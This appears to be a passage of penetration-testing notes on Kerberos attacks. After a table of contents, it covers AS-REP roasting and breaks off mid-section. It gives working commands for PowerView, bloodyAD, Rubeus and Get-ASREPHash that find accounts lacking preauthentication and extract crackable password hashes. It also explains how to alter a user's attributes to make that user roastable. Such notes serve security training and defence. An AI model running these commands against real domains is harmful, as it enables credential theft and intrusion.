 # Content
- [Roasting attacks](#roasting-attacks)
  - [AS-REQ Roasting](#as-req-roasting)
  - [Kerberoasting](#kerberoasting)
- [Delegation attacks](#delegation-attacks)
  - [Unconstrained delegation](#unconstrained-delegation)
  - [Constrained Delegation](#constrained-delegation)
  - [Resource-based constrained delegation](#resource-based-constrained-delegation)
- [Ticket abuse](#ticket-abuse)
  - [Golden ticket](#golden-ticket)
  - [Silver ticket](#silver-ticket)  

# Roasting attacks

## AS-REQ Roasting
- AS-REQ Roasting is possible when Kerberos pre-authentication is not configured. This allows anyone to request authentication data for a user. In return, the KDC would provide an AS-REP message. 
- Since part of that message is encrypted using the user’s password, it is possible to perform an offline brute-force attack to try and retrieve the user's password.
- The only information an attacker requires is the username they want to attack, which can also be found using other enumeration techniques.
- if you have `GenericWrite/GenericAll` rights over a target user, you can maliciously modify their userAccountControl to not require preauth, use ASREPRoast, and then reset the value


it's possible to obtain the TGT for any account that has the "Do not require Kerberos preauthentication" setting enabled.
![Screenshot 2024-06-18 at 12-41-52 8 Powerful Kerberos attacks (that analysts hate)](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ebe87f88-c284-4848-ae60-bf1cedd3316c)


### Enumerating vulnerable users (need domain credentials)
```shell
# windows
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
```

### Request AS_REP message
```powershell
# Windows 
## Rubeus 
### This will automatically find all accounts that do not require preauthentication and extract their AS-REP hashes
.\Rubeus.exe asreproast  /nowrap /format:hashcat
### Targeted account
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username] /nowrap /format:hashcat


## From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
Get-ASREPHash -Username VPN114user -verbose 

# Linux
# GetNPUsers
## Try all the usernames in usernames.txt
```